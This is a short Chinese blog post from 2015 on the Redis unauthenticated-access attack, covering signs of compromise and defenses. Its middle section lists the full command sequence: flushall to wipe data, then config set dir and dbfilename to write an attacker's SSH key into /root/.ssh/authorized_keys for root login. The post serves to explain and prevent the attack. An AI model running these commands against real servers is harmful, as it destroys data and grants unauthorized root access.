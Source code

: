 
  title: 'Redis入侵模拟与防范',
  date: '2015-11-11 20:34:00',
  description: '',
  image: '',
}


对最近挺火的Redis入侵事件做了下简单的测试 其实并不算redis的漏洞 被入侵只能说安全意识不够,入侵手段技术含量也不高


入侵前提
----

redis端口6379对外开放，并且没有验证，(以root权限启动,将直接获得root权限)

入侵现象
----

*   Redis 可能被执行过 flushall 命令
*   Redis 内建了名为 crackit 的 key ![1](https://wlimg.oss-cn-beijing.aliyuncs.com/img/redis/1.jpg)
*   /root/.ssh/authorized_keys 被覆盖或者包含 Redis 相关的内容 ![2](https://wlimg.oss-cn-beijing.aliyuncs.com/img/redis/2.png) ![3](https://wlimg.oss-cn-beijing.aliyuncs.com/img/redis/3.jpg)

入侵模拟：
-----

### 1

    ssh-keygen -t rsa -C "crack@redis.io"
    

### 2

    (echo -e "\n\n";cat id_rsa.pub;echo -e "\n\n") > foo.txt
    

### 3

    redis-cli -h xxxx flushall
    

### 4

    cat foo.txt | redis-cli -h xxxx -x set pwn
    

### 5,登录到redis

    config set dir /root/.ssh
    config set dbfilename "authorized_keys"
    save
    exit
    

### 6,ssh登录该机器 入侵成功

入侵防范
----

### 1，禁止redis端口对外开放

redis.conf文件的 bind 或者在防火墙上做设置

### 2，禁用redis的一些命令（临时）

rename-command xxx

### 3，增加redis验证

redis.conf文件的 requirepass

### 4,以低权限用户启动redis

注意文件权限


